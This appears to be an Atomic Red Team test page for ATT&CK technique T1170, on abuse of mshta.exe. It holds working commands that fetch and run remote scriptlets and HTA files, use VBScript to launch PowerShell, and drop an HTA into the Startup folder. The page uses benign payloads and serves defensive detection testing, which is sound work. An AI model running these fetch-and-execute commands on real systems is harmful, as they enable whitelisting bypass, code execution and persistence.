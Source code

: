 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe](#atomic-test-2---mshta-calls-a-local-vbscript-file-to-launch-notepadexe)

- [Atomic Test #3 - Mshta executes VBScript to execute malicious command](#atomic-test-3---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-4---mshta-executes-remote-html-application-hta)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe
Upon execution calc.exe will be launched

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe
Tests execution of a local program by a VBScript file called by Mshta
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file_path | Create a local VBScript file | path | C:&#92;Temp&#92;mshta_notepad.vbs|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""#{local_file_path}"")(window.close)")
```






<br/>
<br/>

## Atomic Test #3 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file $PathToAtomicsFolder\T1170\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA.
Upon execution calc.exe will be launched

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/T1170.hta|
| temp_file | temp_file location for hta | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1170.hta|


#### Attack Commands: Run with `powershell`! 


```powershell
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
```

#### Cleanup Commands:
```powershell
remove-item "#{temp_file}" -ErrorAction Ignore
```





<br/>
